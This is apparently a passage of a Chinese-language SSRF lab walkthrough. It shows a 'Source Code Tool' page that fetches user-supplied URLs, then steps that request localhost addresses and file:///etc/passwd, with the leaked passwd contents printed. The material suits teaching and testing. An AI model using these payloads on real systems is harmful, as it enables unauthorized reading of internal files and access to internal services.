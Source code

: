 ```

<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="utf-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1">
    <link href="/css/bootstrap.min.css" rel="stylesheet">
</head>
<body>
<div class="container" style="padding-top:60px;">

    <h1 class="text-center">Source Code Tool</h1>
    <h3 class="text-center">View the source of any website</h3>

    <div class="row" style="margin-bottom: 20px">
        <div class="col-md-6 col-md-offset-3">
                        <div class="row">
                <form method="post">
                    <div class="col-xs-9">
                        <input name="url" class="form-control">
                    </div>
                    <div class="col-xs-3">
                        <input type="submit" class="btn btn-success" value="Go">
                    </div>
                </form>
            </div>
        </div>
    </div>

    <textarea class="form-control" rows="30"><!DOCTYPE html>
<html>
<head>
    <meta http-equiv="Content-Type" content="text/html; charset=UTF-8" />
    <meta http-equiv="X-UA-Compatible" content="IE=edge,chrome=1" />
    <meta content="always" name="referrer" />
    <meta
        name="description"
        content="全球领先的中文搜索引擎、致力于让网民更便捷地获取信息，找到所求。百度超过千亿的中文网页数据库，可以瞬间找到相关的搜索结果。"
    />
    <link rel="shortcut icon" href="//www.baidu.com/favicon.ico" type="image/x-icon" />
    <link
    ......
```
3. 请求`http://127.0.0.1`  成功 
	1. http://127.0.0.1:8080 成功
	2. file:///etc/passwd  
```bash
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
```